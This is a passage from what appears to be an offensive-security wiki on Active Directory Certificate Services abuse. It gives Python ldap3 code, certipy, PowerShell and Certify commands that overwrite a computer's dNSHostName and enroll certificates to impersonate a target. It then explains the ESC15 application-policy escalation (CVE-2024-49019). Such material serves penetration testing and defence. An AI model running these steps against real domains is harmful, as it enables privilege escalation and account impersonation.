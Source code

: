     server = ldap3.Server('<DC_HOST>')
    victim_dn = "CN=<VICTIM>,CN=Computers,DC=domain,DC=local"
    attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
    attacker_password = "<ATTACKER_PASSWORD>"

    conn = ldap3.Connection(
        server=server,
        user=attacker_username,
        password=attacker_password,
        authentication=ldap3.NTLM
    )
    conn.bind()

    conn.modify(
        victim_dn,
        {'dNSHostName':[(ldap3.MODIFY_REPLACE, '<TARGET>')]}
    )

    conn.unbind()
    ```
    With certipy, it is then possible to enroll on a certificate template using the victim credentials
    ```bash
    certipy req -u $VICTIM@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
    ```
=== "Windows"
    From Windows systems, with PowerShell the `dNSHostName` attribute of the victim must be overwritten to be equal to `$TARGET`.
    ```bash
    $victim = [ADSI]"LDAP://CN=$VICTIM,CN=Computers,DC=domain,DC=local"
    $victim.Properties["dNSHostName"].Value = $TARGET
    $victim.CommitChanges()
    ```
    Then, Certify (C#) can be used to enroll on a certificate template from the victim session.
    ```bash
    Certify.exe request /ca:domain\ca /template:$TEMPLATE /machine
    ```
The certificate can then be used with Pass-the-Certificate to obtain a TGT and authenticate as the target.
### ESC15: Arbitrary application policy
!!! note
    This privilege escalation has been marked as `CVE-2024-49019` by Microsoft, and will therefore no longer be exploitable on patched systems.
By default, the X509 standard uses EKUs to indicate the possible uses of a certificate. Under Windows, a field called `Application Policy` is added to certificates, and this does the same thing as EKUs, but with a few more options. If both EKUs and application policies are present in a certificate, the latter takes precedence.

It turns out that if a certificate template uses version 1 of the certificate templates, authorises the SAN specification, and if it is possible to enrol on it, then it is possible to request a certificate by specifying an arbitrary user and requesting an arbitrary application policy.
!!! info
    However, that specifying "Client Authentication" in application policy will only allow SChannel authentication and not PKINIT. On the other hand, by specifying "Certificate Request Agent" (1.3.6.1.4.1.311.20.2.1), the certificate can be used as an ESC3.

